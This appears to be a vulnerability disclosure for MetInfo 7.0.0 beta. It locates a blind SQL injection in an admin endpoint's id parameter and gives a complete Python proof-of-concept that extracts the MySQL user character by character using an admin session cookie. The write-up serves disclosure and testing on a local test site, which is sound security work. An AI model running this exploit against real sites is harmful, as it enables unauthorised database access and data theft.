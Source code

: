 # The MetInfo 7.0.0 beta Background SQL Blind Injection 1 #

Description:In Metinfo 7.0.0 beta, SQL Injection was discovered in a admin/index.php?n=ui_set&m=admin&c=index&a=doget_text_content&table=lang&field=1 &id=1 request via the id parameter.

## 1.Version Description: ##

Use the Google Chrome open this test site.download this version（```https://u.mituo.cn/api/metinfo/download/7.0.0beta```) and build a test site.

![](35.png)

Current version as follow.

![](30.png)

## 2.SQL Injection(Need to login) ##

locate in /app/system/ui_set/admin/index.class.php line:474 to 484
![](33.png)

Line 481,all three parameters are retrieved from the form,The function doget_text_content call get_field_text,
and we follow the function locate in /app/system/include/class/view/compile.class.php line:294 to 309
![](34.png)


In $query, directly to the id in the SQL statement.And make a SQL Injection.

And then we use this url：

> http://127.0.0.1/admin/index.php?n=ui_set&m=admin&c=index&a=doget_text_content&table=lang&field=1&id=1

    
    #!/usr/bin/env python3
    # -*- coding: utf-8 -*-
    import requests
    import re
    payloads='abcdefghigklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789@_-.'
    print ('Start to retrive current user:')
    user=''
    header={
    'User-Agent':'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0',
    'Cookie':'Hm_lvt_520556228c0113270c0c772027905838=1570592565; re_url=http://127.0.0.1/admin/; PHPSESSID=e351ac2df468e9d187ecf31163c935dc; met_auth=e01fakMDoiG475LTUMYtNy2tJPH0tI8W7e3M7e12bzx8fIcVwM/3viTT6eJBMWuAfe6uqe8aB5BVMs3uz6XYBVz8zA;met_key=gCjlS1m;admin_lang=cn;page_iframe_url=http://127.0.0.1/index.php/lang=cn&pageset=1'#logged in admin's cookie
    }
    for i in range(1,23):
    for payload in payloads:
    url = "http://127.0.0.1/admin/index.php?n=ui_set&m=admin&c=index&a=doget_text_content&table=lang&field=1&id=1"
    exp = " and (ascii(mid(lower(user()),%d,1))=%d)" %(i,ord(payload))
    url_vul=url+exp
    response=requests.get(url_vul,headers=header)
    if re.findall('\"status\":1',response.text):
    user=user+payload
    print ('\n user is:',user,)
    break
    else:
    print ('.',end='')
    print ('\n[Done] current mysql user is %s' %user)


Run this poc script.

![](31.png)


And then we can get such as this page of mysql current user.

